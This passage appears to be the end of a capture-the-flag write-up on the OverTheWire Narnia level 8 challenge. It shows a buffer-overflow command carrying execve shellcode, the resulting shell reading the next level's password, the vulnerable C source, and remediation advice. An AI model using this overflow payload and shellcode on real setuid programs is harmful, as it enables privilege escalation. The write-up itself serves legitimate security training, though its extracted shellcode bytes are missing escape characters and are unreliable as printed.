 Therefore, the address of the shellcode is at 0xffffd7c4. Finally, the payload can be passed as the argument:

{% highlight bash %}
narnia8@narnia:/narnia$ ./narnia8 $(python -c "print 'A'*20+'xa4xd7xffxff'+'x90'*  
4+'xc4xd7xffxff'+'x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2f  
x62x61x73x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80'")                
AAAAAAAAAAAAAAAAAAAAj  
                    XRfh-pRjhh/bash/binRQS  
bash-4.4$ whoami  
narnia9  
bash-4.4$ cat /etc/narnia_pass/narnia9  
eiL5fealae
{% endhighlight %}

### Source Code

{% highlight c %}
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>  
// gcc's variable reordering messed things up  
// to keep the level in its old style i am  
// making "i" global until i find a fix  
// -morla  
int i;void func(char *b){       char *blah=b;       char bok[20];       //int i=0;       memset(bok, '0', sizeof(bok));       for(i=0; blah[i] != '0'; i++)  
               bok[i]=blah[i];       printf("%sn",bok);  
}  
  
int main(int argc, char **argv){       if(argc > 1)  
               func(argv[1]);       else       printf("%s argumentn", argv[0]);       return 0;  
}

Looking at the code, the assumption that the while loop in func found by Ghidra is actually a for loop proved to be correct.
{% endhighlight %}

Conclusion
==========

* * *

Binaries with setuid permissions must be carefully examined before other users are given execute permissions. Every binary was vulnerable to exploitation using well-known techniques, among them being re2libc, format string exploitation, and shellcode injection. The following remediations will strengthen the security of every tested binary:

*   Perform boundary checks before passing user input into functions

*   Almost every binary outlined in this report was vulnerable due to failure of checking boundaries
*   Sensitive memory addresses were overwritten allowing ret2libc among other attacks

*   Unnecessary disabling NX bit

*   The NX bit was unnecessarily disabled for multiple binaries resulting in shellcode injection

*   Untrusted user input was directly passed to functions

